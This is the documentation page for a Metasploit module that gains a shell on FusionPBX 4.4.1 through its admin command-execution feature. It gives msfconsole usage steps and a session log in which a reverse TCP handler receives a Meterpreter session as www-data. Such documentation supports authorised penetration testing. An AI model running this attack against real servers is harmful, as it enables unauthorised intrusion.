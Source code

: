 ## Description

  This module uses administrative functionality available in FusionPBX
  to gain a shell.

  The Command section of the application permits users with `exec_view`
  permissions, or superadmin permissions, to execute arbitrary system
  commands, or arbitrary PHP code, as the web server user.


## Vulnerable Software

  This module has been tested successfully on FusionPBX version
  4.4.1 on Ubuntu 19.04 (x64).

  Software:

  * https://www.fusionpbx.com/download
  * https://github.com/fusionpbx/fusionpbx/releases


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/fusionpbx_exec_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>` (default: `admin`)
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

  **TARGETURI**

  The base path to FusionPBX (default: `/`)

  **USERNAME**

  The username for FusionPBX (default: `admin`)

  **PASSWORD**

  The password for FusionPBX


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/fusionpbx_exec_cmd_exec 
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set rhosts 172.16.191.214
  rhosts => 172.16.191.214
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set username admin
  username => admin
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set password PXRtwZqSkvToC4gc
  password => PXRtwZqSkvToC4gc
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set lhost 172.16.191.165 
  lhost => 172.16.191.165
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Automatic (PHP In-Memory)
     1   Automatic (Unix In-Memory)
     2   Automatic (Linux Dropper)


  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] Authenticated as user 'admin'
  [*] Sending payload (1115 bytes) ...
  [*] Sending stage (38288 bytes) to 172.16.191.214
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.214:60772) at 2019-11-01 19:25:43 -0400

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > 
  ```

